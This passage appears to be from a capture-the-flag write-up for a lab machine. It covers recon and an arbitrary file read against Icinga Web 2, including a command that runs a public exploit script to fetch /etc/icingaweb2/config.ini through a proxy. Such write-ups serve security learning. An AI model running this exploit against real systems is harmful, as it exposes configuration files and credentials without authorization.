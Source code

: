 ## HTTP

with following information on nmap, we can added new hostname on `/etc/hosts` file

```bash
ip-target icinga.cerberus.local
```

following the tittle of pages, i can determining if the system has a vulnerabillity. i search with `searchploit` tools and soon getting a new one.

![](/assets/img/cerberus/1.png)

i forward this arbitrary file using burpsuite, which is using proxy with following command:

```bash
python3 51329.py http://icinga.cerberus.local:8080/icingaweb2/ "/etc/icingaweb2/config.ini" --proxy 127.0.0.1:8080
```
